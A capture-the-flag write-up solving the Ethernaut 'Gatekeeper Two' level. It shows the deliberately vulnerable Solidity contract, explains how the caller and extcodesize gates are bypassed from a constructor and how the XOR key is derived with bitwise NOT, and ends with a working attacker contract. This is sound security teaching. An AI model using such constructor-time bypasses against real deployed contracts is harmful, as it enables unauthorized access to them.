 ```yaml
---
title: Ethernaut - Gatekeeper Two - Solution
date: '2024-05-31'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Gatekeeper Two CTF
---
```


# Ethernaut - Gatekeeper Two - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## Solution

The goal of this level is to register yourself as an `entrant`.

To pass `gateOne()`, we need to call `enter()` from a contract rather than from our EOA.
At first sight, this looks like a direct contradiction to the second gate since `gateTwo()` requires `extcodesize(caller())` to equal zero.
However, section 7.1 of the [Ethereum Yellow Paper](https://ethereum.github.io/yellowpaper/paper.pdf) tells us that _"while the initialisation code is executing, the newly created address exists but with no intrinsic body code."_
In other words, if we call `enter()` in the constructor of a contract, `gateTwo()` will determine that the `extcodesize()` of that contract is zero.

To understand how we can pass `gateThree()`, let's take a closer look at the corresponding `require` statement.
Our goal is to pass a `bytes8 _gateKey` such that the left-hand side (LHS) becomes `type(uint64).max`, i.e., the largest 64-bit unsigned integer.
Here is what this number looks like in different integer representations:

    - Decimal positional system: 18446744073709551615
    - Binary positional system: 1111111111111111111111111111111111111111111111111111111111111111
    - Hexadecimal positional system: 0xffffffffffffffff

_Note: If you're not familiar with integer representations, section 3.2.5 of [The MoonMath Manual](https://github.com/LeastAuthority/moonmath-manual?tab=readme-ov-file) is a great introduction to the topic._

Taking a closer look at the LHS, the first important thing to notice is that `msg.sender` will be the address of the calling contract.
Without loss of generality, let's assume this address is 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4 so that we can compute a concrete example of the first operand on the LHS via [Chisel](https://book.getfoundry.sh/chisel/):

```
➜ uint64(bytes8(keccak256(abi.encodePacked(myAddress))))
Type: uint64
├ Hex: 0x5931b4ed56ace4c4
├ Hex (full word): 0x0000000000000000000000000000000000000000000000005931b4ed56ace4c4
└ Decimal: 6427117074688828612
```

The binary representation of this number is 0101100100110001101101001110110101010110101011001110010011000100.
In order for the `^` (XOR) operation to yield the largest 64-bit unsigned integer, 111...111, the second operand needs to be the [bitwise NOT](https://en.wikipedia.org/wiki/Bitwise_operation#NOT) of the first operand.
In Solidity, the bitwise NOT can be applied via `~`.

As a conclusion, we can solve the level by deploying the following contract, specifying our level-instance address as the `victim`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperTwo {
    function enter(bytes8 gateKey) external returns (bool);
}

contract GatekeeperTwoAttacker {
    IGatekeeperTwo public immutable VICTIM;

    constructor(address victim) {
        VICTIM = IGatekeeperTwo(victim);
        VICTIM.enter(~bytes8(keccak256(abi.encodePacked(address(this)))));
    }
}
```

 